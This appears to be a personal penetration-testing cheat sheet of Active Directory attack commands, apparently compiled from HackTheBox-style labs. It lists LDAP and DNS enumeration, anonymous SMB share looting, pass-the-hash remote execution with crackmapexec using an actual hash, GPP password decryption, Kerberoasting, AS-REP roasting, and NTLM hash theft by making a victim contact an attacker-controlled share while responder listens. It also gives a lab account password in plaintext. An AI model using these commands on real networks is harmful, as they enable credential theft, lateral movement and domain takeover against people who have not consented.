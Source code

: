 ```
ldapsearch -h 10.10.10.182 -x -s base namingcontexts
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local"

```

### DNS
```dnsrecon -d 10.10.10.100 -r 10.0.0.0/8
dig axfr @10.10.10.123 domain.suffix
```

### SMB
#### anonymous share access
`smbmap -u anonymous -H ip`
#### crackmapexec
`crackmapexec smb 10.11.1.0/24 -u Administrator -H aad3b435b51404eeaa35b51404ee:175A592F3B0C0C5F02FAD40C51412D3A --exec-method=smbexec --local-auth` 
#### recursive all with depth 
```
smbmap -u anonymous -H 10.10.10.130 -r --depth 5 
smbmap -u USER -p PASSWORD -d DOMAIN -H ip
```

#### recursively list share contents
`smbmap -R dirname -H ip`
#### download file with certain name
`smbmap -R dirname -H ip -A Groups.xml`
#### list shares with creds
`smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100`
#### decrypt gpp password, cpassword comes from group xml
`gpp-decrypt "cpassword"`
#### Get AD users after having user creds
`GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/svc_tgs  # unicode errors see https://github.com/SecureAuthCorp/impacket/issues/632`

#### Get user spn # https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names !!! FIX TIME SKEW
```
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
smbclient -L //10.10.10.100   (enter if password is requested)
smbclient -U anonymous  //10.10.10.130/batshare
```

## steal smbhash when having a shell
### attacker
`responder -I tun0`
### victim
`get-content \\10.10.14.73\blablabla`
### get user hahses 
`GetNPUsers.py DOMAIN/ -usersfile ausers.txt`
